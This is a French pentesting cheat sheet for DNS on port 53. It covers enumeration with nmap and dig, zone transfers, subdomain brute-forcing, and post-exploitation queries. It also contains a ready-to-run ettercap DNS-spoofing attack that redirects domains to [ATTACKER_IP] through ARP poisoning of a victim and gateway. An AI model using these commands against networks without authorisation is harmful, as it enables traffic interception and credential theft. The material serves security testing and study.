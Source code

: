 # DNS (53/TCP/UDP)

Le Domain Name System (DNS) traduit les noms de domaine en adresses IP.

## 🔍 Énumération

### Scan de base
```bash
# Scan DNS avec Nmap
sudo nmap -sU -p 53 $IP
sudo nmap -sT -p 53 $IP

# Vérification des scripts de vulnérabilité
nmap --script=dns-* -p 53 $IP
```

### Requêtes DNS basiques
```bash
# Requête pour enregistrements A
dig @$IP domain.com A

# Requête pour enregistrements MX
dig @$IP domain.com MX

# Requête pour tous les enregistrements
dig @$IP domain.com ANY

# Requête inverse
dig @$IP -x [TARGET_IP]
```

### Transfert de zone
```bash
# Tentative de transfert de zone
dig axfr @$IP domain.com

# Avec host
host -t axfr domain.com $IP

# Transfert de zones pour tous les domaines trouvés
for domain in $(cat subdomains.txt); do dig axfr @$IP $domain; done
```

### Énumération de sous-domaines
```bash
# Avec Fierce
fierce --domain domain.com --dns-servers $IP

# Avec Subbrute
./subbrute.py domain.com -s wordlist.txt -r $IP

# Avec subfinder
subfinder -d domain.com -v
```

## 🔨 Exploitation

### DNS Zone Transfer
```bash
# Automatisation avec dnsrecon
dnsrecon -d domain.com -t axfr -n $IP

# DNSEnum
dnsenum --dnsserver $IP --enum domain.com
```

### Empoisonnement de cache DNS
```bash
# Configuration d'Ettercap pour DNS spoofing
echo "domain.com A [ATTACKER_IP]" >> /etc/ettercap/etter.dns
echo "*.domain.com A [ATTACKER_IP]" >> /etc/ettercap/etter.dns

# Lancement de l'attaque
sudo ettercap -T -q -P dns_spoof -M arp:remote /[VICTIM_IP]/ /[GATEWAY_IP]/
```

### Test de takeover de sous-domaine
```bash
# Vérifier les CNAME qui pointent vers des services inactifs
for subdomain in $(cat subdomains.txt); do
  host $subdomain | grep CNAME
done

# Vérifier avec can-i-take-over-xyz
# https://github.com/EdOverflow/can-i-take-over-xyz
```

### Exploitation DNS rebinding
```bash
# Utilisation de Singularity
git clone https://github.com/nccgroup/singularity
cd singularity
# Suivre les instructions d'installation
```

## 🔐 Post-exploitation

### Collecte d'informations supplémentaires
```bash
# Récupération des enregistrements TXT (peuvent contenir des infos sensibles)
dig @$IP domain.com TXT

# Recherche de certificats SSL associés
curl -s "https://crt.sh/?q=%.domain.com&output=json" | jq -r '.[] | .name_value' | sort -u
```

### Analyse de configuration DNS
```bash
# Vérification des vulnérabilités DNSSEC
dig @$IP domain.com DNSKEY
dig @$IP domain.com DS

# Test de requêtes récursives non autorisées
dig @$IP www.google.com
```

## ⚠️ Erreurs courantes & astuces
- Le transfert de zone est souvent restreint aux serveurs DNS secondaires
- Utiliser UDP pour les requêtes standards et TCP pour les transferts de zone
- Les serveurs DNS peuvent limiter le nombre de requêtes par IP
- Pensez à vérifier les noms de serveurs (NS) avant d'attaquer